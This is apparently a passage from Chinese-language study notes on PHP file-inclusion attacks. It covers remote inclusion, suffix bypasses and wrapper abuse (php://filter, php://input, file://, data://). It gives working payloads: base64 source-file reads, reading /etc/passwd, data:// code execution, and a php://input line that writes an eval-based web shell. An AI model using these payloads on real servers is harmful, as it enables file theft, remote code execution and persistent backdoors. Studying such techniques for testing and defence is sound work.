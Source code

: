 代码会进行限制：allow_url_include = On

远程文件包含需要指定一个远程文件的地址，这个地址我们可以自己构造。

**file=网址**

（phpstudy可以构建远程地址）

**有后缀限制**

原理：

http://127.0.0.1/xxx.txt?.html

http://127.0.0.1/xxx.txt#.html

加了问号或者#号（%23编码就是#号），再访问链接显示的还是原来的页面

#### 协议流绕过

**php协议**

**`php://filter`**

**php://filter 是php中独有的一个协议，可以作为一个中间流来处理其他流，可以进行任意文件的读取。**

读取文件：

> php://filter/read=convert.base64-encode/resource=index.php
>
> 读取上级目录文件：
>
> php://filter/read=convert.base64-encode/resource=../../../a.txt
>
> 读取其他的文件
>
> php://filter/read=convert.base64-encode/resource=F:\b.txt
>
> 需要base64解码



`php://input`

**将post请求中的数据作为PHP代码执行，回显出现在header中**

> http://127.0.0.1/?file=php://input
>
> 发送post请求，请求内容为要执行的PHP代码
>
> <?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[1]); phpinfo(); ?>'); ?>



**file协议**

**访问本地文件系统，所有语言都支持，file协议需要传入绝对路径（完整路径）。**

> 注意读取linux文件是：
>
> file:///etc/passwd

**data协议**

读取数据流

* allow_url_fopen ：on

* allow_url_include：on

> data://text/plaindata://text/plain,<?php%20phpinfo()?>
>
> 以base64的形式，执行
>
> <?php phpinfo()?>  base64编码=>  PD9waHAgcGhwaW5mbygpPz4=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
